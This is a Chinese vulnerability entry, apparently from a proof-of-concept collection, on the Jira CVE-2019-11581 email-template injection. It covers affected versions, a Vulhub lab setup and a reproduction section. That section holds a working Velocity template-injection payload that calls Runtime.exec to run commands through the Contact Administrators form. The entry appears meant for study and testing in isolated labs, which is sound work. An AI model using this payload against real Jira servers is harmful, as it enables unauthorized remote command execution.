






# Jira Server/Data Center 11581邮件主题模板注入

## 条目说明

- 对象与具体问题：Jira Server/Data Center；11581邮件主题模板注入
- 版本、配置及部署条件：Vulhub8.1.0；SMTP及联系表单开启
- 认证与权限前提：匿名表单与设置管理员区分
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- exec(...).toString不等于stdout回显，需邮件/副作用结果；poc.py未给内容链接
- 貌似还要项目是未确认条件不能推广，3396只同模板payload不是同漏洞
- 保留邮件队列异步触发解释，历史许可步骤与当前使用分开

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

Atlassian Jira是企业广泛使用的项目与事务跟踪工具，被广泛应用于缺陷跟踪、客户服务、需求收集、流程审批、任务跟踪、项目跟踪和敏捷管理等工作领域。 

参考资料：

- https://confluence.atlassian.com/jira/jira-security-advisory-2019-07-10-973486595.html
- https://jira.atlassian.com/browse/JRASERVER-69532
- https://mp.weixin.qq.com/s/d2yvSyRZXpZrPcAkMqArsw

### 漏洞影响

多个版本前存在利用模板注入执行任意命令：

- 4.4.x
- 5.x.x
- 6.x.x
- 7.0.x
- 7.1.x
- 7.2.x
- 7.3.x
- 7.4.x
- 7.5.x
- 7.6.x before 7.6.14 (the fixed version for 7.6.x)
- 7.7.x
- 7.8.x
- 7.9.x
- 7.10.x
- 7.11.x
- 7.12.x
- 7.13.x before 7.13.5 (the fixed version for 7.13.x)
- 8.0.x before 8.0.3 (the fixed version for 8.0.x)
- 8.1.x before 8.1.2 (the fixed version for 8.1.x)
- 8.2.x before 8.2.3 (the fixed version for 8.2.x)

### 环境搭建

Vulhub执行如下命令启动一个Jira Server 8.1.0：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`会进入安装引导，切换“中文”，VPS条件下选择“将其设置为我”（第一项）去Atlassian官方申请一个Jira Server的测试证书（不要选择Data Center和Addons）：

然后继续安装即可。这一步小内存VPS可能安装失败或时间较长（建议使用4G内存以上的机器进行安装与测试），请耐心等待。



添加 SMTP 电邮服务器 `/secure/admin/AddSmtpMailServer!default.jspa`



进入系统设置 `/secure/admin/ViewApplicationProperties.jspa` ，开启“联系管理员表单”



貌似还要有项目才能玩，所以随便创建一个示例就行了,然后你就可以愉快的玩耍了

### 漏洞复现

PoC 和 CVE-2019-3396 一样

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('calc').toString()
```

Linux 没有 calc, 所以

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('whoami').toString()
```

运行`poc.py`或者进入`/secure/ContactAdministrators!default.jspa` 直接提交 PoC





如果没看到 smtpd 有数据，那么就可能卡队列了

电邮队列瞅一瞅 `/secure/admin/MailQueueAdmin!default.jspa`




---

> 来源：Threekiii/Awesome-POC
